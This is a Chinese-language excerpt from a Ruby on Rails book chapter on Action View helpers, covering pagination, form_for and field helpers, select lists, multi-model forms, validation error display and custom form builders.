最后，JavaScriptHelper 模块定义了一系列用于处理 JavaScript 的辅助方法。这些方法创建在浏览器中运行的 JavaScript 代码片段，以生成特殊效果并使页面能与我们的应用程序进行动态交互。这是本书第 23 章“Web 2.0”（第 522 页）的主题。

默认情况下，图片和样式表资源被假定位于应用程序公共目录下的 `images` 和 `stylesheets` 目录中。如果传给资源标签方法的路径包含正斜杠，则该路径被视为绝对路径，不会添加任何前缀。有时，将这些静态内容移动到单独的服务器或当前服务器的不同位置是有意义的。可以通过设置配置变量 `asset_host` 来实现这一点。

```ruby
ActionController::Base.asset_host = "http://media.my.url/assets"
```

##### 分页辅助方法

一个社区网站可能有数千名注册用户。我们可能需要创建一个管理操作来列出这些用户，但将成千上万个名字倾倒到单个页面上是有些无礼的。相反，我们希望将输出分成多个页面，并允许用户在这些页面之间前后滚动。

Rails 使用分页来实现这一点。分页在控制器层面和视图层面都有效。在控制器中，它控制从数据库中获取哪些行。在视图中，它显示在不同页面间导航所需的链接。

让我们从控制器开始。我们已决定在显示用户列表时使用分页。在控制器中，我们为用户表声明一个分页器。

```ruby
def user_list
  @user_pages, @users = paginate(:users, :order => 'name')
end
```

这个声明返回两个对象。`@user_pages` 是一个分页器。它将用户模型对象分成页面，默认每页包含 10 行。它还将一整页的用户获取到 `@users` 变量中。我们的视图可以使用这个变量来显示用户，每次显示 10 个。分页器通过查找一个请求参数（默认名为 `page`）来知道要显示哪一组用户。如果请求没有 `page` 参数，或者 `page=1`，则分页器将 `@users` 设置为表中的前 10 个用户。如果 `page=2`，则返回第 11 到第 20 个用户。（如果你想使用 `page` 以外的参数来确定页码，可以覆盖它。更多信息请参阅 Rails API 文档。）

在视图文件 `user_list.rhtml` 中，我们使用常规循环显示用户，遍历由分页器创建的 `@users` 集合。我们使用 `pagination_links` 辅助方法来构建一组漂亮的链接到其他页面。默认情况下，这些链接显示当前页码两侧的两个页码，以及第一页和最后一页的页码。

```erb
<table>
  <tr><th>Name</th></tr>
  <%- for user in @users %>
    <tr><td><%= user.name %></td></tr>
  <%- end %>
</table>

<hr>
<%= pagination_links(@user_pages)  %>
<hr>
```

导航到 `user_list` 操作，你将看到第一页的名字。点击底部的分页链接中的数字 2，第二页将出现。



这个例子代表了中庸的分页方式：我们在 `user_list` 操作中明确定义了分页。我们也可以使用类级别的 `paginate` 声明为控制器中的每个操作隐式定义分页。或者，我们可以走向另一个极端，手动创建 `Paginator` 对象并自己填充当前页数组。这些不同的用法都在 API 文档中有涵盖。

分页并非展示大型数据集的完整解决方案。尽管它通常很有用，但随着你对 Rails 越来越熟悉，你很可能会放弃内置的分页支持，转而使用自己的实现。有传言称分页可能会在 Rails 2.0 中被分离为一个插件。

### 22.4 表单如何工作

Rails 拥有完全集成的 Web 技术栈。这在模型、控制器和视图组件协同工作以支持在数据库表中创建和编辑信息的方式中最为明显。

下页的图 22.1 展示了模型中的各个属性如何通过控制器传递到视图，再到 HTML 页面，最后又返回到模型。模型对象具有诸如 `name`、`country` 和 `password` 等属性。模板使用辅助方法（我们稍后会讨论）来构造一个 HTML 表单，让用户编辑模型中的数据。注意表单字段是如何命名的。例如，`country` 属性被映射到一个名为 `user[country]` 的 HTML 输入字段。

当用户提交表单时，原始的 POST 数据被发送回我们的应用程序。Rails 从表单中提取字段并构造 `params` 哈希。简单值（如从表单动作中通过路由提取的 `id` 字段）作为标量值存储在哈希中。但是，如果参数名包含方括号，Rails 会假设它是更结构化数据的一部分，并构造一个哈希来保存这些值。在这个哈希内部，方括号内的字符串被用作键。如果参数名包含多组方括号，这个过程可以重复。

| 表单参数 | params |
|---|---|
| `id=123` | `{ :id => "123" }` |
| `user[name]=Dave` | `{ :user => { :name => "Dave" } }` |
| `user[address][city]=Wien` | `{ :user => { :address => { :city => "Wien" } } }` |

在这个集成整体的最后部分，模型对象可以接受来自哈希的新属性值，这允许我们这样说：

```ruby
user.update_attributes(params[:user])
```

Rails 的集成远不止于此。查看图 22.1 中的 `.rhtml` 文件，你可以看到模板使用了一组辅助方法来创建表单的 HTML，这些方法包括 `form_for` 和 `text_field`。

```ruby
def edit
  @user = User.find(params[:id])
end
```

```erb
<% form_for :user,
    :url => { :action => 'save', :id => @user } do |f| %>
<%= f.text_field 'name' %></p>
<%= f.text_field 'country' %></p>
<%= f.password_field 'password' %></p>
...
<% end %>
```

```html
<form action="/myapp/save/1234">
  <input name="user[name]" ... >
  <input name="user[country]" ... >
  <input name="user[password]" ... >
  ...
</form>
```

```ruby
@params = {
  :id => 1234,
  :user => {
    :name => "...",
    :country => "...",
    :password => "..." }
}
```

```ruby
def save
  user = User.find(params[:id])
  if user.update_attributes(params[:user])
    ...
  end
end
```

1.  应用程序收到一个编辑用户的请求。它将数据读取到一个新的 `User` 模型对象中。
2.  调用 `edit.rhtml` 模板。它使用用户对象中的信息来生成...
3.  HTML 被发送到浏览器。当收到响应时...
4.  参数被提取到一个嵌套哈希中。
5.  `save` 操作使用这些参数来查找用户记录并更新它。

`myapp_controller.rb`

`edit.rhtml`

图 22.1：模型、控制器和视图协同工作

实际上，Rails 的表单支持有点像有分裂的人格。当你编写映射到数据库资源的表单时，你可能会使用 `form_for` 风格的表单。当你编写不易映射到数据库表的表单时，你可能会使用更低级的 `form_tag` 风格。（实际上，这种命名在大多数 Rails 表单辅助方法中是一致的：名称以 `_tag` 结尾的通常比不带 `_tag` 的对应名称更底层）。

让我们首先看看高级的、以资源为中心的 `form_for` 类型的表单。

### 22.5 封装模型对象的表单

封装单个 Active Record 模型的表单应使用 `form_for` 辅助方法创建。（注意，`form_for` 位于 `<%...%>` 构造内部，而不是 `<%=..%>`。）

```erb
<% form_for :user do |form| %>
  ...
<% end %>
```

第一个参数身兼数职：它告诉 Rails 正在操作的对象名称（本例中为 `:user`），以及保存对该对象引用的实例变量名称（`@user`）。因此，在一个呈现包含此表单的模板的控制器操作中，你可能会这样写：

```ruby
def new
  @user = User.new
end
```

接收表单数据返回的操作将使用该名称从请求参数中选择该数据。

```ruby
def create
  @user = User.new(params[:user])
  ...
end
```

如果出于某种原因，包含模型对象的变量没有以模型的类命名，你可以将该变量作为可选的第二个参数提供给 `form_for`。

```erb
<% form_for :user, @account_holder do |form| %>
  ...
<% end %>
```

初次使用 `form_for` 的人常常会因为不应该在 ERb 替换块中使用它而感到困惑：你应该写：

```erb
<% form_for :user, @account_holder do |form| %>
```

而不是下面显示的带有等号的变体。

```erb
<%= form_for :user, @account_holder do |form| %><!-- DON'T DO THIS -->
```

`form_for` 接收一个选项哈希表。最常用的两个选项是 `:url` 和 `:html`。`:url` 选项接受与 `url_for` 和 `link_to` 方法中相同的字段。它指定了表单提交时要调用的 URL。

```erb
<% form_for :user, :url => { :action => :create } %>
```

它也可以与命名路由一起使用（这很可能是你在 Rails 转向 RESTful 方向时应该采用的方式）。⁷

如果你不指定 `:url` 选项，`form_for` 会将表单数据回传给原始 action。

```erb
<% form_for :user, :url => users_url %>
```

`:html` 选项允许你向生成的表单标签添加 HTML 属性。

```erb
<% form_for :product,
    :url => { :action => :create, :id => @product },
    :html => { :class => "my_form" } do |form| %>
```

一个特殊情况是，如果 `:html` 哈希表包含 `:multipart => true`，表单将返回多部分表单数据，使其可用于文件上传（参见第 502 页的第 22.8 节“向 Rails 应用上传文件”）。

你可以使用 `:html` 选项中的 `:method` 参数来模拟使用 POST 以外的 HTTP 方法发送表单数据。

```erb
<% form_for :product,
    :url => { :action => :create, :id => @product },
    :html => { :class => "my_form", :method => :put } do |form| %>
```

#### 字段辅助方法与 form_for

`form_for` 接收一个代码块（位于它和 `<% end %>` 之间的代码）。它会向这个代码块传递一个表单构建器对象。在代码块内部，你可以使用模板中通常可用的所有 HTML 和 ERb 混合语法。但是，你也可以使用表单构建器对象来添加表单元素。例如，这里是一个捕获新产品信息的简单表单。

```erb
<% form_for :product, :url => { :action => :create } do |form| %>
  <p>Title:      <%= form.text_field :title, :size => 30 %></p>
  <p>Description: <%= form.text_area :description, :rows => 3 %></p>
  <p>Image URL: <%= form.text_field :image_url %></p>
  <p>Price:      <%= form.text_field :price, :size => 10 %></p>
  <%= form.select :title, %w{ one two three } %>
  <p><%= submit_tag %></p>
<% end %>
```

⁷ 在本书定稿之际，一个名为 Simply Helpful 的插件正在开发中。该插件使得集成模型、REST 和 `form_for` 变得更加容易。这个插件最终可能会被纳入 Rails 核心。

这里的关键是使用了表单构建器辅助方法来构造表单上的 HTML `<input>` 标签。当我们创建一个包含如下内容的模板时：

```erb
<% form_for :product, :url => { :action => :create } do |form| %>
  <p>
    Title:     <%= form.text_field :title, :size => 30 %>
  </p>
```

Rails 将会生成如下 HTML：

```html
<form action="/form_for/create" method="post">
  <p>
    Title:  <input id="product_title" name="product[title]"
                size="30" type="text" />
  </p>
```

注意 Rails 如何自动将输入字段命名为模型对象的名称（product）和字段名称（title）的组合。

Rails 为文本字段（常规、隐藏、密码和文本区域）、单选按钮和复选框提供了辅助方法支持。（它也支持 `type='file'` 的 `<input>` 标签，但我们将在第 502 页的第 22.8 节“向 Rails 应用上传文件”中讨论这些内容。）

所有表单构建器辅助方法都至少接受一个参数：设置字段值时要查询的模型中的属性名称。当我们写：

```erb
<% form_for :product, :url => { :action => :create } do |form| %>
  <p>
    Title:     <%= form.text_field :title, :size => 30 %>
  </p>
```

Rails 将使用 `@product.title` 的值来填充 `<input>` 标签。

`name` 参数可以是字符串或符号；符合 Rails 习惯的写法是使用符号。

所有辅助方法还接受一个选项哈希表，通常用于设置 HTML 标签的 class 属性。这通常是可选的第二个参数；对于单选按钮，它是第三个参数。然而，在你开始设计一个使用 class 和 CSS 来标记无效字段的复杂方案之前，请继续往下读。正如我们稍后将看到的，Rails 让这变得很容易。

##### 文本字段

```ruby
form.text_field(:attribute, options)
form.hidden_field(:attribute, options)
form.password_field(:attribute, options)
```

分别构建类型为文本、隐藏或密码的 `<input>` 标签。默认内容将从 `@variable.attribute` 获取。常用选项包括 `:size => "nn"` 和 `:maxlength=> "nn"`。

##### 文本区域

```ruby
form.text_area(:attribute, options)
```

构建一个二维文本区域（使用 HTML `<textarea>` 标签）。常用选项包括 `:cols=>"nn"` 和 `:rows=>"nn"`。

##### 单选按钮

```ruby
form.radio_button(:attribute, tag_value, options)
```

创建一个单选按钮。通常，对于给定的属性会有多个单选按钮，每个都有不同的标签值。当按钮显示时，标签值与该属性当前值匹配的那个按钮将被选中。如果用户选择了不同的单选按钮，其标签值将被存储在字段中。

##### 复选框

```ruby
form.check_box(:attribute, options, on_value, off_value)
```

创建一个与给定属性关联的复选框。如果属性值为 true，或者将属性值转换为整数后非零，则该复选框将被选中。

随后返回给应用程序的值由第三和第四个参数设置。默认值将属性设置为：如果复选框被选中则为 "1"；否则为 "0"。

##### 选择列表

选择列表是那些下拉列表框，它们内置了“人工智能”，保证你想要的选择只有在滚动过其他所有选择之后才能被找到。

选择列表包含一组选项。每个选项有一个显示字符串和一个可选的 value 属性。显示字符串是用户看到的内容，而 value 属性是在选中该选项时发送回应用程序的内容。对于常规选择列表，一个选项可以被标记为选中；其显示字符串将是向用户显示的默认值。对于多选列表，可以选择多个选项，在这种情况下，它们的所有值都将被发送到应用程序。

基本的选择列表使用 `select` 辅助方法创建。

```ruby
form.select(:attribute, choices, options, html_options)
```

`choices` 参数填充选择列表。该参数可以是任何可枚举对象（因此数组、哈希表和数据库查询的结果都是可接受的）。

`choices` 最简单的形式是字符串数组。每个字符串成为下拉列表中的一个选项，如果其中一个与 `@variable.attribute` 的当前值匹配，则它将被选中。（这些示例假设 `@user.name` 被设置为 Dave。）

```erb
<% form_for :user do |form| %>
  <%= form.select(:name, %w{ Andy Bert Chas Dave Eric Fred }) %>
<% end %>
```

这将生成以下 HTML。

```html
<select id="user_name" name="user[name]">
  <option value="Andy">Andy</option>
  <option value="Bert">Bert</option>
  <option value="Chas">Chas</option>
  <option value="Dave" selected="selected">Dave</option>
  <option value="Eric">Eric</option>
  <option value="Fred">Fred</option>
</select>
```

如果 `choices` 参数中的元素每个都响应 `first` 和 `last`（如果每个元素本身是一个数组，则会是这种情况），选择列表将使用第一个值作为显示文本，最后一个值作为内部键值。

```erb
<%= form.select(:id, [ ['Andy', 1],
                         ['Bert', 2],
                         ['Chas', 3],
                         ['Dave', 4],
                         ['Eric', 5],
                         ['Fred', 6]])
%>
```

此示例显示的列表将与第一个示例相同，但它传递回应用程序的值将是 1、2、3 等，而不是 Andy、Bert 或 Chas。生成的 HTML 是：

```html
<select id="user_id" name="user[id]">
  <option value="1">Andy</option>
  <option value="2">Bert</option>
  <option value="3">Chas</option>
  <option value="4" selected="selected">Dave</option>
  <option value="5">Eric</option>
  <option value="6">Fred</option>
</select>
```

最后，如果你将哈希表作为 `choices` 参数传递，键将用作显示文本，值将用作内部键值。由于它是一个哈希表，你无法控制生成列表中条目的顺序。

应用程序通常需要根据存储在数据库表中的信息来构建选择框。一种方法是让模型的 `find` 方法来填充 `choices` 参数。尽管我们展示了 `find` 调用，


##### 分组选项的选择列表

在代码片段中，`find` 操作紧邻选择列表，但实际上它很可能位于控制器或辅助模块中。

```ruby
# e1/views/app/views/test/select.rhtml
<%
@users = User.find(:all, :order => "name").map {|u| [u.name, u.id] }
form.select(:name, @users)
%>
```

注意我们如何获取结果集并将其转换为数组的数组，其中每个子数组包含名称和ID。

一种更高级的实现方式是使用 `collection_select`。它接收一个集合，集合中的每个成员都具有返回选项的显示字符串和键的属性。在此示例中，集合是一个用户模型对象的列表，我们使用这些模型的 `id` 和 `name` 属性来构建选择列表。

```ruby
# e1/views/app/views/test/select.rhtml
<%
@users = User.find(:all, :order => "name")
form.collection_select(:name, @users, :id, :name)
%>
```

###### 分组选择列表

分组是选择列表中一个使用较少但功能强大的特性。你可以用它为列表中的条目添加标题。图22.2展示了一个包含三个分组的选择列表。

整个选择列表表示为一个分组数组。每个分组是一个具有名称和子选项集合的对象。在下面的例子中，我们将设置一个包含配送选项的列表，并按配送速度进行分组。我们将创建一个名为 `Shipping` 的非数据库模型来封装配送选项。在其中，我们将定义一个结构来保存每个配送选项，以及一个定义选项组的类。我们将静态地初始化它（在真实应用中，你可能会从表中拉取数据）。

```ruby
class Shipping
  ShippingOption = Struct.new(:id, :name)

  class ShippingType
    attr_reader :type_name, :options
    def initialize(name)
      @type_name = name
      @options = []
    end
    def <<(option)
      @options << option
    end
  end

  ground     = ShippingType.new("SLOW")
  ground    << ShippingOption.new(100, "Ground Parcel")
  ground    << ShippingOption.new(101, "Media Mail")

  regular    = ShippingType.new("MEDIUM")
  regular   << ShippingOption.new(200, "Airmail")
  regular   << ShippingOption.new(201, "Certified Mail")

  priority   = ShippingType.new("FAST")
  priority  << ShippingOption.new(300, "Priority")
  priority  << ShippingOption.new(301, "Express")

  OPTIONS = [ ground, regular, priority ]
end
```

在视图中，我们将创建选择控件来显示这个列表。没有一个高级封装方法能同时创建 `<select>` 标签并填充分组的选项集合，也没有表单构建器辅助方法，因此我们必须使用（名字起得令人惊叹的）`option_groups_from_collection_for_select` 方法。它接收分组的集合、用于查找分组和项目的访问器名称，以及模型中的当前值。我们将它放在一个以模型和属性命名的 `<select>` 标签内。

```html
<label for="order_shipping_option">Shipping: </label>
<select name="order[shipping_option]" id="order_shipping_option">
  <%
    option_groups_from_collection_for_select(Shipping::OPTIONS,
                                            :options, :type_name, # <- groups
                                            :id,:name,            # <- items
                                            @order.shipping_option)
  %>
</select>
```

最后，一些高级辅助方法使得为国家和时区创建选择列表变得容易。详情请参阅 Rails API 文档。

##### 日期和时间字段

```ruby
form.date_select(:attribute, options)
form.datetime_select(:attribute, options)
```

```ruby
select_date(date = Date.today, options)
select_day(date, options)
select_month(date, options)
select_year(date, options)
```

```ruby
select_datetime(date = Time.now, options)
select_hour(time, options)
select_minute(time, options)
select_second(time, options)
select_time(time, options)
```

有两组日期选择组件。第一组 `date_select` 和 `datetime_select` 与 Active Record 模型的日期和日期时间属性配合使用。第二组 `select_xxx` 变体即使在没有 Active Record 支持的情况下也能很好地工作。下图展示了其中一些方法的效果。

`select_xxx` 组件默认命名为 `date[xxx]`，因此在控制器中你可以通过 `params[:date][:minute]` 访问分钟选择。你可以使用 `:prefix` 选项更改 `date` 前缀，并使用 `:discard_type` 选项禁用在方括号中添加字段类型。`:include_blank` 选项会向列表中添加一个空选项。

`select_minute` 方法支持 `:minute_step => nn` 选项。例如，将其设置为 15，则只会列出 0、15、30 和 45 这几个选项。

`select_month` 方法通常列出月份名称。要同时显示月份编号，请设置选项 `:add_month_numbers => true`。要只显示编号，请设置 `:use_month_numbers => true`。

`select_year` 方法默认列出当前年份前后五年的范围。可以使用 `:start_year => yyyy` 和 `:end_year => yyyy` 选项进行更改。

`date_select` 和 `datetime_select` 创建允许用户在 Active Record 模型中通过选择列表设置日期（或日期时间）的组件。存储在 `@variable.attribute` 中的日期用作默认值。显示包括年、月、日（以及小时、分钟、秒）的独立选择列表。可以通过设置选项 `:discard_month => 1`、`:discard_day => 1` 等来移除特定字段的选择列表。只需设置一个 discard 选项即可——所有更低级别的单位都会自动移除。`date_select` 的字段显示顺序可以使用 `:order => (:year, :month, :day)` 选项设置。此外，它还支持来自 `select_xxx` 组件的所有选项。

#### 不使用 form_for 的字段辅助方法

到目前为止，我们看到的输入字段辅助方法都是在 `form_for` 代码块的上下文中使用的：每个辅助方法都在传递给代码块的表单构建器对象实例上调用。然而，每个辅助方法都有一个替代形式，可以在没有表单构建器的情况下调用。这种形式的辅助方法将模型对象的名称作为必需的第一个参数。因此，例如，如果一个 action 像这样设置了一个 user 对象：

```ruby
def edit
  @user = User.find(params[:id])
end
```

你可以像这样使用 `form_for`。

```erb
<% form_for :user do |form| %>
    Name: <%= form.text_field :name %>
    ...
<% end %>
```

使用替代辅助方法语法的版本将是：

```erb
<% form_for :user do |form| %>
    Name: <%= text_field :user, :name %>
    ...
<% end %>
```

这种风格的辅助方法对于通用表单来说正在过时。然而，当你构建映射到多个 Active Record 对象的表单时，你可能仍然需要它们。

##### 表单中的多个模型

到目前为止，我们使用 `form_for` 为单个模型创建表单。如何使用它来在一个网页表单上捕获两个或更多模型的信息呢？

一个问题是 `form_for` 做了两件事。首先，它创建一个上下文（Ruby 代码块），在其中表单构建器辅助方法可以将 HTML 标签与模型属性关联起来。其次，它创建必要的 `<form>` 标签及相关属性。后一种行为意味着我们不能使用 `form_for` 来管理两个模型对象，因为那将意味着浏览器页面上有两个独立的表单。

这时就需要 `fields_for` 辅助方法。它创建一个上下文来使用表单构建器辅助方法，将它们与某个模型对象关联起来，但它不会创建单独的表单上下文。使用它，我们可以在一个对象的表单内嵌入另一个对象的字段。

例如，一个产品可能有一些相关联的附属信息，这些信息通常不会在显示目录时使用。与其让 `products` 表变得杂乱，我们会将其保存在附属详情表中。

```ruby
class CreateDetails < ActiveRecord::Migration
  def self.up
    create_table :details do |t|
      t.column :product_id,    :integer
      t.column :sku,           :string
      t.column :manufacturer,  :string
    end
  end

  def self.down
    drop_table :details
  end
end
```

模型同样简单。

```ruby
class Detail < ActiveRecord::Base
  belongs_to :product
  validates_presence_of :sku
end
```

视图使用 `form_for` 捕获产品模型的字段，并在该表单内使用 `fields_for` 调用来捕获详情模型的数据。

```erb
<% form_for :product, :url => { :action => :create } do |form| %>
  <%= error_messages_for :product %>
  Title:         <%= form.text_field :title %><br/>
  Description:   <%= form.text_area :description, :rows => 3 %><br/>
  Image url:     <%= form.text_field :image_url  %><br/>

  <fieldset>
    <legend>Details...</legend>
    <%= error_messages_for :details %>
    <% fields_for :details do |detail| %>
      SKU:             <%= detail.text_field :sku %><br/>
      Manufacturer: <%= detail.text_field :manufacturer %>
    <% end %>
  </fieldset>
  <%= submit_tag %>
<% end %>
```


我们可以查看生成的 HTML 来看看实际效果。

```html
<form action="/products/create" method="post">
  Title:
  <input id="product_title" name="product[title]" size="30" type="text" /><br/>
  Description:
  <textarea cols="40" id="product_description"
    name="product[description]" rows="3"></textarea><br/>
  Image url:
  <input id="product_image_url" name="product[image_url]"
         size="30" type="text" /><br/>

  <fieldset>
    <legend>Details...</legend>
    SKU:
    <input id="details_sku" name="details[sku]"
           size="30" type="text" /><br/>
    Manufacturer:
    <input id="details_manufacturer"
           name="details[manufacturer]"
           size="30" type="text" />
  </fieldset>

  <input name="commit" type="submit" value="Save changes" />
</form>
```

请注意，details 模型的字段名称被恰当地命名，确保它们的数据将被返回到 params 的正确子哈希中。

用于初始渲染此表单的 `new` 动作，只是创建了两个新的模型对象。

```ruby
def new
  @product = Product.new
  @details = Detail.new
end
```

`create` 动作负责接收表单数据并将模型保存回数据库。它比单个模型保存要复杂得多。这是因为它必须考虑两个因素。

- 如果任一模型包含无效数据，则两个模型都不应被保存。
- 如果两个模型都包含验证错误，我们希望显示来自两者的消息——也就是说，如果我们发现一个模型中有问题，我们不想停止检查另一个模型的错误。

我们的解决方案使用事务和异常处理程序。

```ruby
def create
  @product = Product.new(params[:product])
  @details = Detail.new(params[:details])

  Product.transaction do
    @details.product = @product
    @product.save!
    @details.save!
    redirect_to :action => :show, :id => @product
  end

rescue ActiveRecord::RecordInvalid => e
  @details.valid?   # 即使产品验证失败，也强制检查错误
  render :action => :new
end
```

#### 错误处理与模型对象

到目前为止，我们在本章中看到的各种辅助小部件都了解 Active Record 模型。它们可以从模型对象的属性中提取所需的数据，并且以模型可以从请求参数中提取它们的方式命名参数。

辅助对象以另一种重要方式与模型交互；它们了解每个模型中持有的错误结构，并会用它来标记未通过验证的属性。

在构建模型中每个字段的 HTML 时，辅助方法会调用该模型的 `errors.on(field)` 方法。如果返回任何错误，生成的 HTML 将被包装在带有 `class="fieldWithErrors"` 的 `<div>` 标签中。如果你对页面应用适当的样式表（我们在第 478 页说明了方法），你可以高亮显示任何出错的字段。例如，以下 CSS 代码片段取自脚手架自动生成代码使用的样式表，它会在验证失败的字段周围添加红色边框。

```css
.fieldWithErrors {
    padding:           2px;
    background-color: red;
    display:           table;
}
```

除了高亮显示出错的字段外，你可能还想显示错误消息的文本。Action View 有两个用于此目的的辅助方法。`error_message_on` 返回与特定字段相关的错误文本。

```erb
<%= error_message_on(:product, :title) %>
```

脚手架生成的代码使用不同的模式；它高亮显示错误字段，并在表单顶部显示一个包含所有表单错误的单个框。它使用 `error_messages_for` 来实现这一点，该方法以模型对象作为参数。

```erb
<%= error_messages_for(:product) %>
```

默认情况下，它使用 CSS 样式 `errorExplanation`；你可以借用 `scaffold.css` 中的定义，自己编写定义，或在生成的代码中覆盖该样式。

### 22.6 自定义表单构建器

`form_for` 辅助方法创建一个表单构建器对象并将其传递给构造表单的代码块。默认情况下，此构建器是 Rails 类 `FormBuilder` 的一个实例（定义在 Action View 源代码的 `form_helper.rb` 文件中）。然而，我们也可以定义自己的表单构建器，从而减少表单内部和表单之间的重复。

例如，一个简单产品输入表单的模板可能如下所示：

```erb
<% form_for :product, :url => { :action => :save } do |form| %>
  <p>
    <label for="product_title">Title</label><br/>
    <%= form.text_field 'title' %>
  </p>

  <p>
    <label for="product_description">Description</label><br/>
    <%= form.text_area 'description' %>
  </p>

  <p>
    <label for="product_image_url">Image url</label><br/>
    <%= form.text_field 'image_url' %>
  </p>
  <%= submit_tag %>
<% end %>
```

这里面有很多重复：每个字段的代码段看起来都差不多，字段的标签也重复了字段名。如果我们有智能的默认值，我们确实可以将表单主体简化为如下形式。

```erb
<%= form.text_field 'title' %>
<%= form.text_area 'description' %>
<%= form.text_field 'image_url' %>
<%= submit_tag %>
```

显然，我们需要更改 `text_field` 和 `text_area` 辅助方法生成的 HTML。我们可以通过修补内置的 `FormBuilder` 类来实现，但那很脆弱。相反，我们将编写自己的子类。我们称其为 `TaggedBuilder`。我们将把它放在 `app/helpers` 目录中一个名为 `tagged_builder.rb` 的文件中。让我们从重写 `text_field` 方法开始。我们希望它创建一个标签和一个输入区域，全部包装在一个段落标签中。它可能看起来像这样。

```ruby
class TaggedBuilder < ActionView::Helpers::FormBuilder

  # 生成类似这样的代码：
  #   <p>
  #     <label for="product_description">Description</label><br/>
  #     <%= form.text_area 'description'  %>
  #   </p>

  def text_field(label, *args)
    @template.content_tag("p",
      @template.content_tag("label",
                            label.to_s.humanize,
                            :for => "#{@object_name}_#{label}") +
      "<br/>" +
      super)
  end
end
```

这段代码使用了几个由基类 `FormBuilder` 设置的实例变量。实例变量 `@template` 使我们能够访问现有的辅助方法。我们用它来调用 `content_tag`，这是一个创建包含内容的标签对的辅助方法。我们还使用父类的实例变量 `@object_name`，它是传递给 `form_for` 的 Active Record 对象的名称。还要注意，我们在末尾调用了 `super`。这调用了 `text_field` 方法的原始版本，后者又返回此字段的 `<input>` 标签。

所有这些的结果是一个包含单个字段 HTML 的字符串。对于产品对象的 title 属性，它看起来像下面这样（为了适应页面而重新格式化过）。

```html
<p><label for="product_title">Title</label><br/>
  <input id="product_title"  name="product[title]" size="30"
         type="text" />
</p>
```

现在我们必须定义 `text_area`。

```ruby
def text_area(label, *args)
  @template.content_tag("p",
    @template.content_tag("label",
                          label.to_s.humanize,
                          :for => "#{@object_name}_#{label}") +
    "<br/>" +
    super)
end
```

嗯...除了方法名，它和 `text_field` 代码完全一样。让我们消除这种重复。首先，我们将在 `TaggedBuilder` 中编写一个类方法，该方法使用 Ruby 的 `define_method` 函数动态创建新的标签辅助方法。

```ruby
def self.create_tagged_field(method_name)
  define_method(method_name) do |label, *args|
    @template.content_tag("p",
      @template.content_tag("label" ,
        label.to_s.humanize,
        :for => "#{@object_name}_#{label}") +
      "<br/>" +
      super)
  end
end
```

然后我们可以在类定义中调用此方法两次，一次创建 `text_field` 辅助方法，再次创建 `text_area` 辅助方法。

```ruby
create_tagged_field(:text_field)
create_tagged_field(:text_area)
```

但即使这也包含重复。我们可以改用循环。

```ruby
[ :text_field, :text_area ].each do |name|
  create_tagged_field(name)
end
```

我们可以做得更好。基类 `FormBuilder` 定义了一个名为 `field_helpers` 的集合——一个包含其定义的所有辅助方法名称的列表。使用这个，我们最终的辅助类如下所示。

```ruby
class TaggedBuilder < ActionView::Helpers::FormBuilder

  # <p>
  #   <label for="product_description">Description</label><br/>
  #   <%= form.text_area 'description'  %>
  #</p>

  def self.create_tagged_field(method_name)
    define_method(method_name) do |label, *args|
      @template.content_tag("p",
        @template.content_tag("label" ,
          label.to_s.humanize,
          :for => "#{@object_name}_#{label}") +
        "<br/>" +
        super)
    end
  end

  field_helpers.each do |name|
    create_tagged_field(name)
  end

end
```


我们如何让 Rails 使用我们全新的表单构建器？我们只需在 `form_for` 中添加一个 `:builder` 参数。

```ruby
Download e1/views/app/views/builder/new.rhtml
<% form_for :product, :url => { :action => :save }, :builder => TaggedBuilder do |form| %>
  <%= form.text_field 'title' %>
  <%= form.text_area 'description' %>
  <%= form.text_field 'image_url' %>
  <%= submit_tag %>
<% end %>
```

如果我们计划在多个表单中使用新的构建器，我们可能希望定义一个辅助方法，它与 `form_for` 功能相同，但能自动添加构建器参数。因为它是一个常规辅助方法，所以可以将其放在 `helpers/application_helper.rb` 中（如果我们想让它全局可用），或者放在特定控制器的辅助文件中。

理想情况下，这个辅助方法应该这样编写。

```ruby
# DOES NOT WORK
def tagged_form_for(name, options, &block)
  options = options.merge(:builder => TaggedBuilder)
  form_for(name, options, &block)
end
```

然而，`form_for` 的参数列表长度是可变的——它接受一个可选的第二个参数，其中包含模型对象。我们需要考虑到这一点，这使得我们最终的辅助方法变得稍微复杂一些。

```ruby
Download e1/views/app/helpers/builder_helper.rb
module BuilderHelper
  def tagged_form_for(name, *args, &block)
    options = args.last.is_a?(Hash) ? args.pop : {}
    options = options.merge(:builder => TaggedBuilder)
    args = (args << options)
    form_for(name, *args, &block)
  end
end
```

我们最终的视图文件现在相当优雅。

```ruby
Download e1/views/app/views/builder/new_with_helper.rhtml
<% tagged_form_for :product, :url => { :action => :save } do |form| %>
  <%= form.text_field 'title' %>
  <%= form.text_area 'description' %>
  <%= form.text_field 'image_url' %>
  <%= submit_tag %>
<% end %>
```

表单构建器是 Rails 中默默无闻的英雄之一：你可以用它们来建立应用程序中一致且符合 DRY 原则的外观和感觉，并且可以在应用程序之间共享它们，以实施公司范围的用户交互标准。在你需要遵循应用程序的无障碍访问指南时，它们也会有所帮助。我建议为你的所有 Rails 表单都使用表单构建器。

#### 包含集合的表单

如果你需要在一个表单上编辑同一模型的多个对象，请在你传递给表单辅助方法的实例变量名称上添加方括号。这告诉 Rails 将对象的 id 作为字段名称的一部分包含进来。例如，以下模板允许用户更改与产品列表相关联的一个或多个图片 URL。

```ruby
Download e1/views/app/views/array/edit.rhtml
<% form_tag do %>
  <% for @product in @products %>
    <%= text_field("product[]", "image_url") %><br />
  <% end %>
  <%= submit_tag %>
<% end %>
```

当表单提交给控制器时，`params[:product]` 将是一个哈希的哈希，其中每个键是一个模型对象的 id，相应的值是该对象的表单字段值。在控制器中，可以使用类似这样的代码来更新所有产品行：

```ruby
Download e1/views/app/controllers/array_controller.rb
Product.update(params[:product].keys, params[:product].values)
```

### 22.7 处理非模型字段

